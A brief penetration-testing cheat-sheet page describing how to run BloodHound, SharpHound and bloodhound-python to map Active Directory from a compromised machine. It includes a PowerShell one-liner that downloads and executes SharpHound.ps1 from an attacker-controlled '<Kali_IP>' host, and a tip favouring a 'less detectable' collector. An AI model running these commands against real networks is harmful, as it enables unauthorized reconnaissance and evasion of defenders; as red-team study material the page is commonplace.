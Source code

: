 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Bloodhound
---
```



<span style="font-size: 35px; color:red"><b>BloodHound</b></span>
&nbsp;
Start BloodHound

```bash
sudo neo4j console
```

```bash
./bloodhound --no-sandbox
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>SharpHound</b></span>
Pull AD Configuration from pwned machine and load it into BloodHound
Copy _sharphound.exe_ in the pwned machine and run it from there
```shell
./SharpHound.exe -c all
```
It will create a .zip file that you can drag and drop into bloodhound

OR
```powershell
IEX(New-Object Net.WebClient).downloadString('http://<Kali_IP>/SharpHound.ps1')  
Invoke-BloodHound -CollectAll
```

Look for users that you pwned and use the suggestion box for 'shortest path from owned principles'
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>BloodHound-Python</b></span>
If you have working credentials but no shell, you can use bloodhound-python from remote like so:
```shell
bloodhound-python -u <user> -p <password> -ns <IP> -d <DOMAIN> -c all
```
<span style="color:red">Give a try to rusthound, maybe it's faster and less detectable!</span>
